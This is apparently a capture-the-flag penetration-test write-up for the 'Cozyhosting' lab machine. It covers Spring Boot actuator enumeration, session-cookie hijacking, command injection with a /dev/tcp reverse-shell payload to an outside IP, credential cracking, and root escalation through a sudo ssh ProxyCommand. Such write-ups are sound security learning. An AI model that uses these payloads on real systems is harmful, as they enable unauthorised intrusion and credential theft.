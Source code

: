 # Cozyhosting Machine

## Service Enumeration

Once the open ports are known, the services enumeration process begins. In order to do this, Nmap tool is used and, specifically the following command: ```sudo nmap -sS -p22,80 -sV -O -sC cozyhosting.htb``` 
 
![image](images/Cozyhosting/Imagen2.png)

### HTTP Enumeration

The first step taken was to scan using gobuster in order to find directories and other func-tions in the service. The command used was ```sudo gobuster dir -u http://cozyhosting.htb/ -w /usr/share/wfuzz/wordlist/general/common.txt”```.
 
![image](images/Cozyhosting/Imagen3.png)

First thing to do is to manually check the findings. 

When accessing “admin” page, a redirection to “login” is found.
 
![image](images/Cozyhosting/Imagen4.png)

The “error” page gives more information as let us guess the type of application that is run-ning in the background. This is because “Whitelabel Error Page” is the default error page for Spring Boot applications.
 
![image](images/Cozyhosting/Imagen5.png)

Taking the last into account, a new directory scan will be made but this time using a Spring Boot dictionary (obtained form https://github.com/danielmiessler/SecLists/tree/master/Discovery/Web-Content/spring-boot.txt). 
Command used is ```sudo gobuster dir -u http://cozyhosting.htb/ -w /home/corso/Desktop/wordlists/SecLists-master/Discovery/Web-Content/spring-boot.txt```.

 
![image](images/Cozyhosting/Imagen6.png)

As shown in the previous picture, Spring Boot actuators are found. Sessions and Mappings actuators stand out because they give very useful information.
In ```/actuator/mappings``` we can see the different endpoints available in the application. Among them, ```/executessh``` seems to be interesting.
 
![image](images/Cozyhosting/Imagen7.png)

Sessions’ actuator shows what seems to be a session cookie for the user Kanderson. If user “Kanderson” has rights to access the Admin page, it may be possible to use his session cookie and access on his behalf. 

 
![image](images/Cozyhosting/Imagen8.png)
 
![image](images/Cozyhosting/Imagen9.png)

Once the cookie is set, it is possible to access the Admin Dashboard.  

![image](images/Cozyhosting/Imagen10.png)

Looking through the Admin dashboard, there is an interesting functionality that lets the user configure an arbitrary host for automatic patching through SSH. As expected, it uses the ```/executessh``` endopoint that stood out during the ```/actuator/mappings``` enumeration.
 
![image](images/Cozyhosting/Imagen11.png)

Inserting two random values as ```hostname=localhost``` and ```username=kanderson``` generates a POST request to ```/executessh``` that results in a “Host key verification failed” error.
 
![image](images/Cozyhosting/Imagen12.png)
 
![image](images/Cozyhosting/Imagen13.png)

The way the errors are thrown are suspicious as it seems to be the output of a shell command. In order to generate more errors, I inserted some special characters to see if it is possible to inject some commands.

The error shown after inserting ```hostname=localhost```and ```username=hello;id;```, was a clear indication that host may be vulnerable to command injection.
 
![image](images/Cozyhosting/Imagen14.png)
 
![image](images/Cozyhosting/Imagen15.png)

The fact that the error says ```@localhost: command not found``` let us know that the command executed on the backend is something like ```ssh [some_options] <username>@<hostname>``` and if “;” is inserted on the username parameter the ssh command will fail as it will not correctly receive the hostname parameter (because the server will consider everything after “;” as a new command).

It was also confirmed that front end did not allow blank spaces on the username parameter.
 
![image](images/Cozyhosting/Imagen16.png)

After some trials, it was found that appending ```%0A<command_to_execute_without_spaces>;``` let us execute commands on the server.
In order to check the execution, a 404 HTTP GET request will be performed against a web server running on my machine.
 
![image](images/Cozyhosting/Imagen17.png)
 
![image](images/Cozyhosting/Imagen18.png)

## Initial Access – Command Injection

**Vulnerability Explanation**: misconfigured Spring Boot application that exposes other users’ session cookies has a insecure function “/executessh” where it is possible to inject com-mands to open a reverse shell.
**Vulnerability Fix**: securely store session cookies and correctly sanitize user input on “/executessh” function.
**Severity**: Critical
**Steps to reproduce the attack**: 

•	Access “/actuator/sessions” and grab session cookie for user “kanderson”.

•	Setup a listener on port 444.

•	Using that cookie access the Admin dashboard and insert on username parameter: kanderson@%0A(sh)0>/dev/tcp/10.10.14.10/444;a
 
![image](images/Cozyhosting/Imagen19.png)

•	Insert “exec >&0” on the recently opened shell.
 
![image](images/Cozyhosting/Imagen20.png)

## Post Exploitation.

After gaining initial access, a veri interesting file is  found called “cloudhosting-0.0.1.jar”
 
![image](images/Cozyhosting/Imagen21.png)

After downloading the file and manually inspecting it, some credentials for PostgreQL data-base are found inside a file called “application.properties”.
 
![image](images/Cozyhosting/Imagen22.png)

This password let me access the postgresql database using the command ```psql -U post-gres -h localhost```.
 
![image](images/Cozyhosting/Imagen23.png)

More credentials are found inside “Users” table.
 
![image](images/Cozyhosting/Imagen24.png)

Using hashcat and rockyou dictionary it is possible to crack the hash for user Admin.
 
![image](images/Cozyhosting/Imagen25.png)

Once this password is recovered, it is possible to access the target machine through SSH as the password was reused and is the same password for user local user josh.
 
![image](images/Cozyhosting/Imagen26.png)

## Privilege Escalation – Insecure Sudo Permissions

**Vulnerability Explanation**: After establishing a foothold on target, Cosme noticed that the user has permissions to execute “ssh *” as a super user. This configuration let a user with-out privileges spawn a root shell.
**Vulnerability Fix**: avoid using wildcards when establishing the sudo permissions for a user.
**Severity**: Critical
**Steps to reproduce the attack**: execute “sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x”
**Screenshot**:
 
![image](images/Cozyhosting/Imagen27.png)

## Post-Exploitation

System Proof Screenshot:

![image](images/Cozyhosting/Imagen28.png)
